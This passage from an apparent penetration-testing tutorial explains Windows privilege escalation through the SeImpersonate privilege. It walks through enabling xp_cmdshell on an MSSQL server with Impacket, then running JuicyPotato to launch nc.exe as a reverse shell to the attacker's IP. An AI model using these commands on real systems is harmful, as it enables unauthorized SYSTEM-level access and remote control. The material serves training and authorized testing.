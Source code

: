 If we run an elevated command window, we can see the complete listing of rights available to us:
```console
PS C:\zeropio> whoami /priv
```

Windows does not provide a built-in command or PowerShell cmdlet to enable privileges, so we need some scripting to help us out. User rights increase based on the groups they are placed in or their assigned privileges.

## SeImpersonate and SeAssignPrimaryToken 

In Windows, every process has a token that has information about the account that is running it. To utilize the token, the SeImpersonate privilege is needed. Attackers often abuse this privilege in the *Potato style* privescs, where a service account can **SeImpersonate**, but not obtain full SYSTEM level privileges. Essentially, the Potato attack tricks a process running as SYSTEM to connect to their process, which hands over the token to be used. 

Take for example we have access to command execution in a mssqlserver. Connect to the mssqlserver and confirm our privileges with [mssqlclient.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/mssqlclient.py):
```console
zero@pio$  mssqlclient.py <USER>@<TARGET> -windows-auth
```

Next, we must enable the `xp_cmdshell`:
```console
SQL> enable_xp_cmdshell
```

> Impacket run the `RECONFIGURE` for us
{: .prompt-info}

Confirm the command execution:
```console
SQL> xp_cmdshell whoami
```

Next, let's check what privileges the service account has been granted:
```console
SQL> xp_cmdshell whoami /priv
```

If we have the **SeImpersonatePrivilege** we can start using [Juicy Potato](https://github.com/ohpe/juicy-potato). Download the binary and nc.exe to the target:
```console
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe <OUR IP> 8443 -e cmd.exe" -t *
```

| **Flag**   | **Description**    |
|--------------- | --------------- |
| `-l` | COM server listening port |
| `-p` | program to launch (cmd.exe) |
| `-a` | rgument passed to cmd.exe |
| `-t` | **createprocess** call |

